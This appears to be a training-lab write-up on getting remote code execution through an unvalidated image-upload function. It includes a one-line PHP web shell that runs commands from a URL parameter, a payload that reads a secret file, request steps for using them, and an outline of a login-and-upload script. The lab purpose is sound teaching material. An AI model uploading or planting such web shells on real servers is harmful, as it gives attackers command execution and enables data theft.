 ### Lab: Remote code execution via web shell upload

This lab contains a vulnerable image upload function.
It doesn't perform any validation on the files users upload before storing them on the server's filesystem.

To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file /home/carlos/secret.
Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: wiener:peter

______

Important GET / POST Requests:

[+] POST /my-account/avatar HTTP/2
[+] GET /files/avatars/<WEBSHELL>

Payload1: <?php echo system($_GET['command']); ?>
Payload2: <?php echo file_get_contents('/home/carlos/secret'); ?>

1) Upload payload1.php
2) Open WebShell for Remote Code Execution (/files/avatars/webshell.php?command=[command])
3) cat%20/home/carlos/secret

OR

1) Upload payload2.php
2) Call remote file via GET request


_____

Script Structure

!) GET /login
    1a) Extract session cookie and store it
    1b) Extract csrf token and store it
2) POST /login
    2a) Extract authenticated session cookie and store it
3) GET /login (after authentication)
    3a) Extract csrf token for the avatar upload function (second csrf token in the webpage)
4) POST /my-account/avatar
    4a) upload file (use session cookie and csrf token)


